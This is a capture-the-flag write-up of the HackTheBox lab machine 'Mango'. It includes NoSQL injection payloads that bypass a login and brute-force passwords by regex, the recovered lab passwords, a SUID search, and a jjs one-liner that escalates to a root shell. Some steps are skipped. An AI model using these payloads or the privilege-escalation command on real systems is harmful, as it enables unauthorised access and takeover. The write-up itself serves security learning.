 Title:HTB: Mango
Date: 10-21-2020 11:25
category:security
tags:security, boot2root, HTB
meta:security, boot2root, HTB

<img class="align-left" src="/media/2020.xx/mango_card.png" alt="Mango card" width="262">


This is a writeup about a retired HacktheBox machine:
[Mango](https://www.hackthebox.eu/home/machines/profile/214)
This box is classified as a medium machine.

<!-- PELICAN_END_SUMMARY -->

[TOC]

# Recon

We start with an nmap scan. Only the ports 22 (SSH) 80 (HTTP) and 443 (HTTPS) are open.

    :::text
    # Nmap 7.80 scan initiated Thu Nov 21 13:22:00 2019 as: nmap -p- -sSV -oA nmap 10.10.10.162
    Nmap scan report for 10.10.10.162
    Host is up (0.086s latency).
    Not shown: 65532 closed ports
    PORT    STATE SERVICE  VERSION
    22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
    443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Thu Nov 21 13:24:55 2019 -- 1 IP address (1 host up) scanned in 175.48 seconds
    # Web

![Mango certificat](/media/2020.xx/mango_1.png)


![Mango login page](/media/2020.xx/mango_2.png)

https://mangomap.com/security/

https://www.mangoapps.com/

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection

https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1542039176.pdf


When we try to login as "admin" with the password "place" the POST parameters
are the following:

    username=admin&password=place&login=login

We edit the request with Burp and send the following:

    username=admin&password[%24ne]=place&login=login

We can get the password's length

    username[%24ne]=admin&password[%24regex]=.{16}&login=login

![Mango plantation](/media/2020.xx/mango_3.png)

![Mango plantation](/media/2020.xx/mango_4.png)
![Mango plantation](/media/2020.xx/mango_5.png)

username[%24ne]=admin&password[%24regex]=h3§q§.{13}&login=login
username[%24ne]=admin&password[%24regex]=h3m§q§.{12}&login=login
username[%24ne]=admin&password[%24regex]=h3mXK8RhU§q§.{6}&login=login
username[%24ne]=admin&password[%24regex]=h3mXK8RhU~f{]f5§q§.{0}&login=login

h3mXK8RhU~f{]f5H

It is a password but not admin password!

username=admin&password[%24regex]=§a§.{12}&login=login

t9KcS3>!0B#2

mango@mango:~$ su admin
Password: 
$ ls
$ cd
$ ls
jjs  user.txt
$ cat user.txt
79bf31<redacted>


admin@mango:/home/admin$ sudo -l
[sudo] password for admin: 
Sorry, user admin may not run sudo on mango.
admin@mango:/home/admin$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 43088 Oct 15  2018 /bin/mount
-rwsr-xr-x 1 root root 26696 Oct 15  2018 /bin/umount
-rwsr-xr-x 1 root root 44664 Jan 25  2018 /bin/su
-rwsr-xr-x 1 root root 64424 Mar  9  2017 /bin/ping
-rwsr-xr-x 1 root root 40152 May 15  2019 /snap/core/7713/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/7713/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/7713/bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/7713/bin/su
-rwsr-xr-x 1 root root 27608 May 15  2019 /snap/core/7713/bin/umount
-rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/7713/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/7713/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/7713/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/7713/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/7713/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jun 10 22:53 /snap/core/7713/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve 42992 Jun 10 19:46 /snap/core/7713/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /snap/core/7713/usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 106696 Aug 30 07:09 /snap/core/7713/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 394984 Jun 12  2018 /snap/core/7713/usr/sbin/pppd
-rwsr-xr-x 1 root root 40152 May 16  2018 /snap/core/6350/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/6350/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/6350/bin/ping6
-rwsr-xr-x 1 root root 40128 May 17  2017 /snap/core/6350/bin/su
-rwsr-xr-x 1 root root 27608 May 16  2018 /snap/core/6350/bin/umount
-rwsr-xr-x 1 root root 71824 May 17  2017 /snap/core/6350/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 May 17  2017 /snap/core/6350/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 May 17  2017 /snap/core/6350/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 17  2017 /snap/core/6350/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 May 17  2017 /snap/core/6350/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /snap/core/6350/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve 42992 Jan 12  2017 /snap/core/6350/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 Nov  5  2018 /snap/core/6350/usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 98472 Jan 29  2019 /snap/core/6350/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 394984 Jun 12  2018 /snap/core/6350/usr/sbin/pppd
-rwsr-xr-x 1 root root 37136 Jan 25  2018 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 40344 Jan 25  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75824 Jan 25  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 59640 Jan 25  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 37136 Jan 25  2018 /usr/bin/newgidmap
-rwsr-sr-x 1 root root 18161 Jul 15  2016 /usr/bin/run-mailcap
-rwsr-xr-x 1 root root 76496 Jan 25  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 44528 Jan 25  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 149080 Jan 18  2018 /usr/bin/sudo
-rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root root 18448 Mar  9  2017 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-- 1 root messagebus 42992 Jun 10 18:05 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-sr-- 1 root admin 10352 Jul 18 18:21 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 101240 Mar 15  2019 /usr/lib/snapd/snap-confine

https://gtfobins.github.io/gtfobins/jjs/#suid

We can use the gtfobins command but the process just hang.

`
admin@mango:/home/mango$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-/bin/jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc $@|sh${IFS}-p _ echo sh -p </dev/pts/0 >/dev/pts/0 2>/dev/pts/0').waitFor()
# 
`

We modify in to use `/bin/bash` instead of `sh` and it work (the user input are
not prompted when typing but when you hit enter it gives the command result).
The first command is `id` the second is `cat /root/root.txt`.

`
admin@mango:/home/mango$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo /bin/bash -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc $@|sh${IFS}-p _ echo /bin/bash -p </dev/pts/0 >/dev/pts/0 2>/dev/pts/0').waitFor()
bash-4.4# uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)
bash-4.4# 8a8ef<redacted>
`
# Wrapping up

The NoSQL injection was quit fun. Doing it manually with Burp was really
interesting.
